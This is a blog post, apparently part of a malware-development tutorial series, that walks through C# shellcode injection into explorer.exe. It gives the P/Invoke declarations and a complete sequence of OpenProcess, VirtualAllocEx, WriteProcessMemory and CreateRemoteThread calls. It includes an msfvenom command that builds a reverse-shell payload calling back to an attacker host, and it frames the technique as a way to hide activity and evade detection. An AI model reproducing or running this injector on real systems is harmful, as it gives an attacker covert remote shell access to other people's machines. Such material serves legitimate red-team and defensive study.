 ```yaml
---
title: Dummies' Malware II
date: 2023-1-31 12:00:00 -800
categories: [malware]
tags: [malware, development, c#]
---
```


# Trust in the Process

## Introduction

Let's continue our adventure in malware development and move on to the next exercise in [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies). You can read the previous entry in this blog series [here](/_posts/2023-01-29-Maldev1.md). That post goes through a lot of background information that we will be utilizing from here on out.

## Objective

This time, we're going to learn how to inject shellcode into a remote process. This allows us to disguise our activities under a guise of a legitimate process. For this exercise, I'll be focusing on the `explorer.exe` process.

## A New Set of Functions

In our last exercise, we utilized `VirtualAlloc` to allocate memory, `Marshal.copy` to copy our shellcode into memory, and `CreateThread` to execute the code in memory.

For this solution we will be using a new set of functions. First we'll use `OpenProcess` to get a handle on our target process. Then, we'll use `VirtualAllocEx` which allocates executable memory in our target remote process. Then, we'll use `WriteProcesMemory` to copy our shellcode into the memory and then use `CreateRemoteThread` to execute the shellcode.

As you can see, the process is pretty similar to our last solution.

Before we begin, let's set our namespaces so that we can import the necessary dlls:

```c#
using System.Diagnostics;
using System.Runtime.InteropServices;
```

Now, let's find these functions from [PInvoke.net](https://pinvoke.net/index.aspx). Next, we'll create a new C# solution and improt these functions into a class.

```c#
class Methods
{
    //OpenProcess API to get handle on the target process
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(
        uint processAccess,
        bool bInheritHandle,
        int processId);

     //VirtualAllocEx to allocate memory in the remote process
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    public static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect);

     //WriteProcessMemory to copy shellcode into memory
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberofBytesWritten);
     
     //CreateRemoteThread to execute the shellcode in memory
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParamerter,
        uint dwCreationFlags,
        IntPtr lpThreadId);
    
    public enum StateEnum
        {
            MEM_COMMIT = 0x1000,
            MEM_RESERVE = 0x2000,
            MEM_FREE = 0x10000,
        }

    public enum Protection
        {
            PAGE_READONLY = 0x02,
            PAGE_READWRITE = 0x04,
            PAGE_EXECUTE = 0x10,
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
        }
}
```
* Lines 3 to 37 defines the functions listed above.
* Lines 39 to 52 defines enums that we might use later.

Note that these functions are also from kernel32.dll.

## The Main Function

Let's start constructing our main function.

First we're going to use the same shellcode we built last time with `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerIP LPORT=attackerPort -f csharp
```

We'll paste the `msfvenom` output into our code. Here is an example of what it would look like:

```c#
byte[] shellcode = new byte[380] {0x00,0x00,...};
```

Next, let's get the process ID for `explorer.exe`
```c#
Process[] targetProcess = Process.GetProcessesByName("explorer");
Process explorerProcess = targetProcess[0];
```
This will get all the PID's of any process with the term "explorer." We then take the first ID in that array and assign it to the `explorerProcess` variable.

We will then call `OpenProcess` to get a handle on our target process and also create a `bytesWritten` variable for future use.
```c#
IntPtr process_handle = Methods.OpenProcess(0x1F0FFF, false, explorerProcess.Id);
IntPtr bytesWritten;
```

Next, we will use `VirtualAllocEx` to allocate memory in our target process using the process handle.

```c#
IntPtr memory_allocation = Methods.VirtualAllocEx(process_handle, IntPtr.Zero, (uint)(shellcode.Length), 0x00001000, 0x40);
```

We will use `WriteProcessMemory` to write our shellcode into memory.
```c#
Methods.WriteProcessMemory(process_handle, memory_allocation, shellcode, (int)shellcode.Length, out bytesWritten);
```

Finally, we execute the code with `CreateRemoteThread`.
```c#
Methods.CreateRemoteThread(process_handle, IntPtr.Zero, 0, memory_allocation, IntPtr.Zero, 0, IntPtr.Zero);
```

Let's test this code out!

First, we'll create a listener on our Kali machine.

![Listener](/assets/images/listener.png)

Let's run our code in Visual Studio:
![Injector](/assets/images/runInjector.png)

And we catch another reverse shell!

![Shell](/assets/images/injectorShell.png)

You can find the [full solution code here](https://github.com/ThreeEightSec/MalDummies-Solutions/blob/main/Exercise2.cs).

You can find the my other solutions for this workshop on my [Github repo](https://github.com/ThreeEightSec/MalDummies-Solutions).

## Conclusion

In this blog, we've utilized a different set of functions to inject shellcode. This time, we injected shellcode in a remote process in an effort to avoid detection. However, this solution will also get caught by Defender since it is a well known technique. We will explore defense evasion in our next blog post in this series so stay tuned!

## References

* [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies)
* [PInvoke.net](https://pinvoke.net/index.aspx)
* [A simple Windows code Injection example written in C#](https://andreafortuna.org/2019/03/06/a-simple-windows-code-injection-example-written-in-c/)